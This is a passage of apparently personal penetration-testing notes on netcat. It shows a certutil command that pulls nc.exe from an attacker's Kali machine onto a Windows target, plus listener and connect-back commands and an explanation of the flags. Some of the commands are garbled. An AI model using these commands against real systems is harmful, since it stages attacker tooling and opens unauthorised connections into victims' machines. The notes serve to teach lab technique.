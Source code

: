 - Run the following command to download the nc.exe file from your target machine
	- `certutil -urlcache -f http://kali_ip/nc.exe nc.exe`
    


Step 2: Setting up the Listener on the Attacker's System

- Open a terminal on your Kali Linux machine.
- Run the following command to set up a Netcat listener on port 1234:
	- `nc -nvlp 1234`
    

Step 3: Connecting to the Listener from the Target System (Windows)
- Open a command prompt on the target system (Windows).
- Navigate to the directory where you downloaded the nc.exe file (if needed).
- Run the following command to connect to the Netcat listener on your Kali Linux machine:
	- `nc.exe -nv kali-ip 1234`
  

Note:
- If you wish to start the listener from the target system, run the following command in the target system's command prompt: `nc -nvlp kali_ip 1234`

And in your Kali terminal, run: `nc -nv target-ip 1234` 
    Replace "kali_ip" with the IP address of your Kali Linux machine and "target-ip" with the IP address of the target system.

`nc -nv` wordt gebruikt om om een actieve verbinding tot stand te brengen, terwijl `nc -nvlp` gebruikt wordt te luisteren naar inkomende verbindingen 

1. `nc -nvlp` (Listening Mode):
    - **-n**: It tells Netcat not to perform DNS resolution, which can speed up connection establishment.
    - **-v**: This option makes Netcat verbose, providing detailed output about the connection.
    - **-l**: This option specifies that Netcat should operate in listening mode, waiting for incoming connections.
    - **-p port**: You would typically specify the port number after `-p` to indicate on which port Netcat should listen for incoming connections. For example, `nc -nvlp 1234` listens on port 1234.

    - This command sets up Netcat to listen on port 1234 and wait for incoming connections. It's commonly used on the system that will receive incoming connections, like a server.
- 
1. `nc -nv` (Connecting Mode):
    - **target_ip target_port**: In this case, you specify the IP address of the target system and the port you want to connect to.
    - This command initiates an active connection to a remote system at `target_ip` on the specified `target_port`. It's used on the system that initiates the connection, often referred to as the client or attacker in some scenarios.

In summary, `nc -nvlp` is used on the system that is waiting for incoming connections (listener), while `nc -nv` is used on the system that initiates the connection to the listener. The listener sets up a server-like environment, while the connecting side acts as the client or attacker.

 netcat listener on udp port:  `nc -nvlup 1234 `  --> `nc -nvu 1234`


##### Setting up listener and connecting to listener (how to transfer files with netcat)
